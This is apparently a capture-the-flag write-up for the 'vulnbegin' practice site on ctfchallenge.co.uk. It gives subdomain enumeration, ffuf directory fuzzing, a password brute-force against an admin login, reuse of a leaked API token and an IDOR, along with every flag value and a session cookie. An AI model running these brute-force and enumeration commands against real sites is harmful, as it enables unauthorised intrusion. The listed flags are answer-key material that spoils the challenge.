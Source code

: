 # ctfchallenge_co_uk


# target: vulnerable website for ctf(ctfchallenge.co.uk)

## easy | vulnbegin | 9 flags

### cookie used during automation: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSTRNWGd5WVdwMGRTSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJkMGE3MTE1NmMxYTY5YmM3NWRjN2QzZDg1ZjEwNzVkYiJ9


### 4-flag : 
robots.txt --> http://www.vulnbegin.co.uk/secret_d1rect0y/ -->[^FLAG^2B22E2CB70E218510802B0359488F6A2^FLAG^]

tools used and documentation:
#### nslookup -type=any vulnbegin.co.uk 8.8.8.8
The above command will query the DNS server for any default A,TXT,NS,SOA,SPF records. You will see from the results there is a TXT record with a flag.

### 1-flag: [^FLAG^BED649C4DB2DF265BD29419C13D82117^FLAG^]

sublist3r -d vulnbegin.co.uk

The above query uses OSINT to discover domain names from various search engines and other data resources, from the result you will find an obscure subdomain if you visit it this will show you a flag

result:
server.vulnbegin.co.uk

v64hss83.vulnbegin.co.uk

### 3-flag 
[^FLAG^E858ED9649E57BECE9ACD1A4C60D3446^FLAG^] on server.vulnbegin.co.uk
 
 ### 2-flag from sublister : [^FLAG^047524FE61AE6B5FD1D184994C7322FC^FLAG^]


dnsrecon for finding subdomains using brute force
dnsrecon -d vulnbegin.co.uk -D ~/wordlists/subdomains.txt -t brt


content discovery using ffuf:
ffuf -p 0.1 -t 1 -w ~/wordlists/content.txt -H "Cookie: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSTRNWGd5WVdwMGRTSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJkMGE3MTE1NmMxYTY5YmM3NWRjN2QzZDg1ZjEwNzVkYiJ9" -u http://www.vulnbegin.co.uk/FUZZ


in this case username was admin but the response code is 200 for both valid and invalid requests:
to filter out 200 requets i used command:


ffuf -p 0.1 -t 1 -w ~/wordlists/passwords.txt -X POST -d "username=admin&password=FUZZ" -H "Cookie: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSTRNWGd5WVdwMGRTSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJkMGE3MTE1NmMxYTY5YmM3NWRjN2QzZDg1ZjEwNzVkYiJ9" -H "Content-Type: application/x-www-form-urlencoded" -u http://www.vulnbegin.co.uk/cpadmin/login -mc all -fc 200





### 5-flag 	[^FLAG^93D7491FB4B054FB5C5AC3E0292BE41C^FLAG^]





### 6-flag from brute forcing the directry or it can be achieved using ffuf
{"api_key":"X-Token: 492E64385D3779BC5F040E2B19D67742","flag":"[^FLAG^F6A691584431F9F2C29A3A2DE85A2210^FLAG^]"}


### 7-flag from adding X-Token we got from cpanel/env 
{"messaged":"User Authenticated","flag":"[^FLAG^0BDC60CC5E283476E7107C814C18DCCF^FLAG^]"}


### 8-flag 
"flag":"[^FLAG^7B3A24F3368E71842ED7053CF1E51BB0^FLAG^]",

### 9-flag after indirect object reference for user 5 
[^FLAG^3D82BE780F46EE86CE060D23E6E80639^FLAG^]


# vulnlawyers | easy | target:vulnlawyers.co.uk


